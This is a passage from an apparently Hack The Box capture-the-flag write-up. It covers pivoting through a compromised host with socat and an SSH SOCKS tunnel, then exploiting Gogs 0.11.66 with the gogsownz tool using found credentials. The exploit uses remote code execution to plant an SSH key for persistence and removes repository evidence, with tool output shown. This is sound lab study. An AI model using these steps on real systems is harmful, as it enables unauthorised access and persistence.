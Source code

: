 _On `kaneki-pc`_

```
$ ./socat tcp-listen:3000,fork tcp:172.18.0.2:3000 &
```

_On my attacking machine_

```
# ssh -D9999 -i ssh/aogiri root@10.10.10.101 -f -N
```


{% include image.html image_alt="843fcd3f.png" image_src="/f8dd83a8-2193-4ced-a27e-b9c1cb3564d3/843fcd3f.png" %}


There you have it.

### Gogs 0.11.66 a.k.a gogsownz

`kaneki` mentioned something about Gogs in `note.txt` and something about _giving `AogiriTest` user access to Eto for git_ as well.


{% include image.html image_alt="062f99cd.png" image_src="/f8dd83a8-2193-4ced-a27e-b9c1cb3564d3/062f99cd.png" %}


[TheZ3ro](https://github.com/TheZ3ro) wrote an awesome generic exploit tool ([`gogsownz`](https://github.com/TheZ3ro/gogsownz)) for several Gogs CVEs. In particular, Gogs 0.11.66 is susceptible to remote code execution via `git` hooks. To do that, we need credentials. That sent me on a wild goose chase for passwords. In the end, I found a commented password at `/usr/share/tomcat7/conf/tomcat-users.xml`.


{% include image.html image_alt="377b059e.png" image_src="/f8dd83a8-2193-4ced-a27e-b9c1cb3564d3/377b059e.png" %}


Damn. Even using `gogsownz` need some digging into the source code. I've done my homework. Gogs configuration file is at [app.ini](https://gogs.io/docs/advanced/configuration_cheat_sheet) and the default [values](https://github.com/gogs/gogs/blob/master/conf/app.ini) can be found in the Gogs [repository](https://github.com/gogs/gogs).

From the official documentation of Gogs, we know a couple of things:

+ Default running user is `git`
+ SSH home page is `~/.ssh`

As such, we can run `gogsownz` and put in a SSH public we control to `~/.ssh/authorized_keys` like so.

```
# ./gogsownz.py http://172.20.0.150:3000/ -v --cookie-name 'i_like_gogits' --creds 'AogiriTest:test@aogiri123' --rce "echo $(cat ssh/git.pub) >> ~/.ssh/authorized_keys" --cleanup --burp
[i] Starting Gogsownz on: http://172.20.0.150:3000
[+] Loading Gogs homepage
[i] Gogs Version installed: © 2018 Gogs Version: 0.11.66.0916                                      
[i] The Server is redirecting on the login page. Probably REQUIRE_SIGNIN_VIEW is enabled so you will
 need an account.
[+] Performing login
[+] Logged in sucessfully as AogiriTest
[+] Got UserID 2
[+] Repository created sucessfully
[i] Exploiting authenticated PrivEsc...
[+] Uploading admin session as repository file
[+] Uploaded successfully.
[+] Committing the Admin session
[+] Committed sucessfully
[+] Removing Repo evidences
[+] Repo removed sucessfully
```

[1]: https://www.hackthebox.eu/home/machines/profile/187
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/home/users/profile/8308
[4]: https://www.hackthebox.eu/